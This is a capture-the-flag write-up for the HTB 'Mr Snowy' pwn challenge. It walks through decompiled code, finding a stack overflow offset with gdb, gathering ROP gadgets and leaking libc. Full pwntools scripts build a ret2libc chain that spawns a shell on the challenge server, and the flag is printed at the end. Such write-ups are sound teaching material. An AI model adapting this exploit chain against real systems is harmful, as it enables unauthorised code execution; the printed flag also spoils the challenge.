

# Mr Snowy

There is ❄️ snow everywhere!! Kids are playing around, everything looks amazing. But, this ☃️ snowman... it scares me.. He is always 👀 staring at Santa's house. Something must be wrong with him.

## Analysis

In this challenge we were given an ELF-64bit named `mr_snowy` with no canary, NX enabled, and no PIE.

```
$ file mr_snowy; checksec mr_snowy
mr_snowy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d6143c5f2214b3fe5c3569e23bd53666c7f7a366, not stripped
[*] '/home/kali/Documents/HTB/cyber santa/pwn_mr_snowy/mr_snowy'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

#### First try


#### Second try



#### Third try


It seems that we have to insert 1 for the first input and then deactivate the camera by knowing the password. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup(*(_QWORD *)&argc, argv, envp);
  banner();
  snowman();
  return 0;
}
```

> At this very moment I did not check every function that is existed in the binary. So all that I check was only banner(), snowman(), and investigate(). There is the short or the easier way to solve this problem, which I will explain in [here](mrSnowy-butEasier.md).

From the main function, it called 2 other function, banner() and snowman(). Function banner() only give the output of the snowman and the function snowman() reads the input and determine the flow of the program.

So, we need to dive into the function snowman more!

#### snowman
```c
int snowman()
{
  char buf; // [rsp+0h] [rbp-40h]

  printstr(&unk_4019A8);
  fflush(_bss_start);
  read(0, &buf, 2uLL);
  if ( atoi(&buf) != 1 )
  {
    printstr("[*] It's just a cute snowman after all, nothing to worry about..\n");
    color((unsigned __int64)"\n[-] Mission failed!\n");
    exit(-69);
  }
  return investigate();
}
```

We are right, we need to choose 1 at the first input that the program asked. Otherwise, the program will exit. If we choose 1, the program will redirect into function investigate(). So, we need to check that out.

#### investigate
```c
int investigate()
{
  char buf; // [rsp+0h] [rbp-40h]

  fflush(_bss_start);
  printstr(&unk_401878);
  fflush(_bss_start);
  read(0, &buf, 0x108uLL);
  if ( atoi(&buf) == 1 )
  {
    puts("\x1B[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
    exit(22);
  }
  if ( atoi(&buf) == 2 )
  {
    puts("\x1B[1;31m");
    printstr("[!] This metal seems unbreakable, the elves seem to have put a spell on it..\n[-] Mission failed!\n");
    exit(22);
  }
  fflush(_bss_start);
  puts("\x1B[1;31m");
  fflush(_bss_start);
  puts("[-] Mission failed!");
  return fflush(_bss_start);
}
```

In the second input, the program didn't check the input. So we could fill this buffer until it overflows. Let's use gdb to find the offset.

First, we could use gdb to create a pattern.
```
$ gdb -q ./mr_snowy
Reading symbols from ./mr_snowy...
(No debugging symbols found in ./mr_snowy)
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/HTB/cyber santa/pwn_mr_snowy/mr_snowy 

                                                                                                                 
[Location]: 🎅 Santa's garden..                                                                                  
                                                                                                                 
   _____    *  *  *  *  *     *  *                                                                               
   |   |        *   *    *   * **                                                                                
  _|___|_     *  *  *   *  **  *                                                                                 
  ( 0 0 )   *   *  *   * *   * *   *                                                                             
 (   *   )    *   *    *    *   * *                                                                              
(    *    )      *  *   *  *   *  *                                                                              
 \_______/    *   *   *  ***   **                                                                                
                                                                                                                 
                                                                                                                 
[*] This snowman looks sus..                                                                                     
                                                                                                                 
1. Investigate 🔎                                                                                                
2. Let it be   ⛄                                                                                                
> 1                                                                                                              
                                                                                                                 
[!] After some investigation, you found a secret camera inside the snowman!                                      
                                                                                                                 
1. Deactivate ⚠                                                                                                  
2. Break it   🔨                                                                                                 
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL           
                                                                                                                 
[-] Mission failed!                                                                                              
                                                                                                                 
Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffde98: 0x4134414165414149
gdb-peda$ pattern offset 0x4134414165414149
4698452060381725001 found at offset: 72
```

Nice, we got the offset/padding. Now we need to leak the address of the libc that the program is used. But, before that, since the binary were given, we could use ROPgadget to get the ret and pop_rdi gadget that will be useful in the next steps.
```
$ ROPgadget --binary mr_snowy | grep "ret"
0x000000000040087e : ret
$ ROPgadget --binary mr_snowy | grep "pop rdi"
0x00000000004015c3 : pop rdi ; ret
```

Now, let's try to leak the libc address

## Leaking Libc Address

To leak the libc address, I will use address of `pop_rdi` to clear the `rdi` register and replace it with address of puts from the PLT (Procedure Linkage Table) which is  used to call external procedures/functions whose address isn't known in the time of linking.

If we put the address of PLT puts into the rdi, when it got called, the program will print something (using puts). So we could abuse that and called an address from GOT (Global Offsets Table) which is similarly used to resolve addresses. In this case I will call puts from GOT.

Lastly, we need to re-run the program, so I will call main from the PLT again to redirect the program.

```python
from pwn import *

offset = 72
pop_rdi = 0x00000000004015c3
ret = 0x000000000040087e

elf = ELF("./mr_snowy")
s = elf.process()

puts_plt = elf.symbols["puts"]
main_plt = elf.symbols["main"]

puts_got = elf.got["puts"]
rop = [
	pop_rdi,
	puts_got,
	puts_plt,
	main_plt
]

rop = b"".join([p64(i) for i in rop])
payload = b"A"*offset + rop

# to run the libc leak address
# # input 1 for the first input
print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

# # sending the payload for the second input
print(payload)
s.sendline(payload)

# # I used 2 recvline() to bruteforce when the program will print the address of puts.
# # Since usually it only needs 2 recvline()
print(s.recvline().decode())
print(s.recvline().decode())
```

Now we need to do is just run the program to get the address from puts GOT!

```python
$ python3 snowy_solver.py
[*] '/home/kali/Documents/HTB/cyber santa/pwn_mr_snowy/mr_snowy'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/kali/Documents/HTB/cyber santa/pwn_mr_snowy/mr_snowy': pid 1773
                                                                                                                 
                                                                                                                 
[Location]: 🎅 Santa's garden..                                                                                  
                                                                                                                 
   _____    *  *  *  *  *     *  *                                                                               
   |   |        *   *    *   * **                                                                                
  _|___|_     *  *  *   *  **  *                                                                                 
  ( 0 0 )   *   *  *   * *   * *   *                                                                             
 (   *   )    *   *    *    *   * *                                                                              
(    *    )      *  *   *  *   *  *                                                                              
 \_______/    *   *   *  ***   **                                                                                
                                                                                                                 
                                                                                                                 
[*] This snowman looks sus..                                                                                     
                                                                                                                 
1. Investigate 🔎                                                                                                
2. Let it be   ⛄                                                                                                
>                                                                                                                
1                                                                                                                
                                                                                                                 
[!] After some investigation, you found a secret camera inside the snowman!                                      
                                                                                                                 
1. Deactivate ⚠                                                                                                  
2. Break it   🔨                                                                                                 
>                                                                                                                
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc3\x15@\x00\x00\x00\x00\x00X\x1f`\x00\x00\x00\x00\x00\xa0\x08@\x00\x00\x00\x00\x00>\x15@\x00\x00\x00\x00\x00'                                         
                                                                                                                 
                                                                                                                 
[-] Mission failed!
```

This part drives me insane, it only gives 1 output which is `[-] Mission failed!`. When I checked at the ida again, turns out the program will print `\x1B[1;31m` that I missed :').


Now, we know that we need to receive that junk and 2 more lines. So let's rewrite the program!

```python
from pwn import *

offset = 72
pop_rdi = 0x00000000004015c3
ret = 0x000000000040087e

elf = ELF("./mr_snowy")
s = elf.process()

puts_plt = elf.symbols["puts"]
main_plt = elf.symbols["main"]

puts_got = elf.got["puts"]
rop = [
	pop_rdi,
	puts_got,
	puts_plt,
	main_plt
]

rop = b"".join([p64(i) for i in rop])
payload = b"A"*offset + rop

# to run the libc leak address
print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)
print(s.recvuntil(b"\x1B[1;31m"))

print(s.recvline().decode())
print(s.recvline().decode())
leakPuts = u64(s.recvuntil(b"\n").rstrip().ljust(8,b"\x00"))
log.info(f"Leak Puts: {hex(leakPuts)}")
```


Got it! Finally get the address. Now we need to leak the server binary, so we will get the same libc with the server. To access the server remotely, we need to add remote to server using host and port.

```python
from pwn import *

host = "138.68.129.154"
port = 31276

offset = 72
pop_rdi = 0x00000000004015c3
ret = 0x000000000040087e

elf = ELF("./mr_snowy")
# s = elf.process()
s = remote(host, port)

puts_plt = elf.symbols["puts"]
main_plt = elf.symbols["main"]

puts_got = elf.got["puts"]
rop = [
	pop_rdi,
	puts_got,
	puts_plt,
	main_plt
]

rop = b"".join([p64(i) for i in rop])
payload = b"A"*offset + rop

# to run the libc leak address
print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)
print(s.recvuntil(b"\x1B[1;31m"))

print(s.recvline().decode())
print(s.recvline().decode())
leakPuts = u64(s.recvuntil(b"\n").rstrip().ljust(8,b"\x00"))
log.info(f"Leak Puts: {hex(leakPuts)}")
```


Great! Let's check the libc version using [libc.blukat.me](https://libc.blukat.me/).


We, need to download the libc version, and then put it in the same folder with the mr_snowy solver python file.

After that, we could call it into the python file and use the libc to find the `/bin/sh` and `system`.

```python
from pwn import *

host = "138.68.129.154"
port = 31276

offset = 72
pop_rdi = 0x00000000004015c3
ret = 0x000000000040087e

elf = ELF("./mr_snowy")
# s = elf.process()
s = remote(host, port)

puts_plt = elf.symbols["puts"]
main_plt = elf.symbols["main"]

puts_got = elf.got["puts"]
rop = [
	pop_rdi,
	puts_got,
	puts_plt,
	main_plt
]

rop = b"".join([p64(i) for i in rop])
payload = b"A"*offset + rop

# to run the libc leak address
print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)
print(s.recvuntil(b"\x1B[1;31m"))

print(s.recvline().decode())
print(s.recvline().decode())
leakPuts = u64(s.recvuntil(b"\n").rstrip().ljust(8,b"\x00"))
log.info(f"Leak Puts: {hex(leakPuts)}")

libc = ELF("libc6_2.27-3ubuntu1.4_amd64.so")
libc.address = leakPuts - libc.symbols["puts"]
log.info(f"libc base address found at {hex(libc.address)}")

# next wrapper used to get the first occurence of /bin/sh
bin_sh = next(libc.search(b'/bin/sh'))

# system used to call the next address on the stack
# so we could write the address of /bin/sh before system
system = libc.symbols['system']

# exit used to make the program end safely and not in the harsh way
exit = libc.symbols['exit']

rop = [
	ret,
	pop_rdi,
	bin_sh,
	system,
	exit
]

rop = b''.join([p64(i) for i in rop])
payload = b"A"*offset + rop

# to get into bin sh
print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)

# interactive() let us the interact with the /bin/sh
s.interactive()

s.close()
```

Now all we need to do is just run the program and cat the flag.txt!


Flag: `HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}`